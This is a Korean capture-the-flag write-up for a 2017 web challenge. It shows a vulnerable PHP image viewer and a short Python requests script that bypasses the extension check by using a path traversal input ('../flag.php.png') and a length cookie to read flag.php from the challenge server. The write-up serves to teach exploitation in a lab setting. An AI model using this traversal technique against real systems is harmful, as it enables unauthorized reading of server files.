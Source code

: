 ======================================================
[2017_H3X0R] [WEB] misulgwan
======================================================

문제 내용
======================================================

server 1: http://pphp.dothome.co.kr/
server 2:http://jellycleaner.dothome.co.kr/
server 3: http://39.120.34.116:12345/misulgwan/


문제 풀이
======================================================

해당 사이트에 접속해서 소스보기를 해보면 소스코드 제공 페이지가 존재한다.

.. code-block:: html

    <!--<a href='./view.php?view-source'>view source</a> -->

PHP 소스코드는 아래와 같다.

.. code-block:: php

    welcome to misulgwan. 
    <?php
    error_reporting(0);
    include 'flag.php'; # flag is in the flag.php

    if(isset($_GET['image'], $_COOKIE['length'])){
        $ext = explode(".", strrev($_GET['image']));
        $ext = strrev($ext[0]);
        if(!preg_match("/png|jpg|bmp/i", $ext)) exit("no hack");

        $image = substr($_GET['image'], 0, $_COOKIE['length']);
        $view = fopen("./image/".$image, 'rb');

        header("Content-Type: image/png");
        fpassthru($view);
    }
    else {
        echo "welcome to misulgwan.";
    }

    if(isset($_GET['view-source'])){
        highlight_file(__FILE__);
    }
    ?>

문제를 볼 때 항상 입력값과 출력값을 염두해두자. 입력값은 image 파라미터와 length 쿠키 값이고, 출력하고자하는 값은 flag.php 내용이다.
출력 값인 flag.php 파일 내용을 가져오기 위해서는, 조건문이 2개 맞아야 한다.

1. 파일명 뒤에 확장자가 png, jpg, bmp여야 한다.
2. 해당 파읾명을 읽을 때 전체 입력한 값을 가져오는게 아니라, length 쿠키 값까지만 읽어서 가져오므로 flag.php까지만 읽을 수 있도록 length 쿠키 값을 맞춰보내야 한다.


다음과 같은 python 코드를 통해 플래그를 획득한다.

.. code-block:: python

    import requests

    url = "http://pphp.dothome.co.kr/view.php?image=../flag.php.png"
    header = {
        "Cookie":"length=11"
    }
    r = requests.get(url,headers=header)
    print r.content


